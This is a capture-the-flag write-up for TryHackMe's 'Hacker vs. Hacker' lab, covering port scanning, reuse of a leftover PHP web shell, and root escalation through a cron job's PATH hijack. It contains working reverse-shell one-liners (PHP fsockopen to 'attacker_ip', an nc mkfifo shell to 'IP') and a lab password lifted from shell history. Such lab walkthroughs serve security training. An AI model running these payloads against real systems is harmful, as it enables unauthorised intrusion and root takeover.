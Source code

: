 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Hacker vs. Hacker
# DESCRIPTION       . Someone has compromised this server already! Can you get in and evade their countermeasures?
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/hackervshacker
```

```
sudo nmap -sSVC -T5 -p- 10.10.243.47 -oN hvh
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9fa60153923a1dbad718185c0d8e922c (RSA)
|   256 4b60dcfb92a86ffc745364c18cbdde7c (ECDSA)
|_  256 83d49cd09036ce83f7c7533028dfc3d5 (ED25519)
	
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### PORT 80 

- I started by inspecting the source code of the website and I found the following information

```
<!-- im no security expert - thats what we have a stable of nerds for - but isn't /cvs on the public website a privacy risk? -->
```

- However, directory listing is disabled for `/cvs`.

- By inspecting the source code of `/cvs`, we find `upload.php`

```

Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

- We see that the (former) script was checking only for the `.pdf` extension of the file.

- I tried uploading a PHP reverse shell called `shell.pdf.php`, but, as expected, it wasn't actually uploading the file anymore, so the upload logic has been removed by the previous attacker.

- However, `/cvs/shell.pdf.php` is the name chosen by the previous attacker. If we access that, we get the following 

```
boom!
```

- So the file is still uploaded. However, if it's a reverse shell, then we have no luck.

- I was thinking that since there's no other way around, this might be actually a web shell and we might find a parameter to execute commands, so I've tried the most obvious one: `?cmd=`. 

```
http://10.10.243.47/cvs/shell.pdf.php?cmd=ls

index.html
shell.pdf.php

boom!
```

- Lucky enough. 

- Since I knew PHP is already installed on the system, I used a PHP reverse shell to get foothold on the system.

```
php -r '$sock=fsockopen("attacker_ip",3131);exec("sh <&3 >&3 2>&3");'
```

- But I've URL-encoded it, resulting in the following final result

```
ip/cvs/shell.pdf.php?cmd=php+-r+%27%24sock%3Dfsockopen%28%22ip%22%2C3131%29%3Bexec%28%22sh+%3C%263+%3E%263+2%3E%263%22%29%3B%27
```

#### PRIVILEGE ESCALTION --- www-data -> lachlan

- The `user.txt` flag is in `/home/lachlan/` and can be read.


- I tried spawning a bash shell but after a short while I was "sent back" to a sh.

```
python3 -c 'import pty;pty.spawn("/bin/bash")

www-data@b2r:/var/www/html/cvs$ nope

ls
index.html
```

- The `nope` message was sent automatically, so there must be some sort of script preventing shell stabilization.
- This would also kill any SSH connections unless used with `-T`, so no TTY is created.

- I fired up `pspy64` and took a look at what is running. Under `root`, i found the following

```
PID=4462 | /bin/sh -c /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done 
```

**NOTE**: There were multiple `PIDs` with different sleep timers that were checking the same thing.

- After poking around some more, I couldn't find anything relevant and I took closer attention to `/home/lachlan`.

- In `.bash_history`, I found the new password of the user

```
cat .bash_history

./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n{REDACTED}\n{REDACTED}" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

- `su lachlan`

#### PRIVILEGE ESCALATION --- lachlan -> root

```
Sorry, user lachlan may not run sudo on b2r.
```

- In `/etc/cron.d/persistence`, I found the actual cron that is running the checks preventing us to spawn a bash shell.

```
cat persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

(I actually found it earlier but it makes much more sense to explain about it now).

- We see that the `backup.sh` is commented out, so we don't care about that.

- However, the PATH is also set to `/home/lachlan/bin` first, so the binaries are searched in that path first.

- All are using their absolute path `EXCEPT pkill`, which is using the relative path. 

- This means that the cron is looking for `pkill` in `/home/lachlan/bin`. If it's not there, in `/bin`. Then in `/usr/bin`. 

```
which pkill
/usr/bin/pkill
```

- If we create a script called `pkill` in `/home/lachlan/bin` and make it executable, it'll get executed as root.

- The content of `pkill` can be anything. I've chosen to be a reverse shell, but could be even a passwd to change root's password or whatever you feel like doing.

```
cd /home/lachlan/bin
touch pkill
echo "#!/bin/bash" > pkill
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP 3132 >/tmp/f" >> pkill
chmod +x pkill
```

- On my listener, I've got

```
Listening on 0.0.0.0 3132
Connection received on 10.10.243.47 42206
bash: cannot set terminal process group (5684): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~#
```

- The last flag is in `/root/root.txt`.